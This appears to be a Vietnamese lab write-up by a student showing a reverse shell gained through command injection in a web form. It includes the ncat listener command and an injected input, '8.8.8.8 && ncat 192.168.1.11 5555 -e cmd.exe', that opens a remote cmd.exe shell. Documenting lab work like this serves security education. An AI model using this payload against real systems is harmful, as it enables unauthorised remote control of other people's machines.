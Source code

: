 ## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 23/5/2022

- Đây là giao diện trang web dùng để reverse shell.
  
  ![CHESSE](../../img/11.png)

- Ta sẽ kiểm tra ip của bản thân với <code>ipconfig</code>.
  
  ![CHESSE](../../img/12.png)

- Tiếp theo ta tiến hành dùng <code>ncat -nlvp 5555</code> để tiến hành lắng nghe phản hồi trên công 5555.
  
  ![CHESSE](../../img/13.png)

- Ta thực hiện submit <code>8.8.8.8 && ncat 192.168.1.11 5555 -e cmd.exe</code> trên web và ta đã reverse shell thành công.
  
  ![CHESSE](../../img/14.png)

- Sau khi thực hiện thành công, ta có thể thử kiểm tra <code>whoami</code> hoặc <code>dir</code> trên chính cmd.
  
  ![CHESSE](../../img/15.png)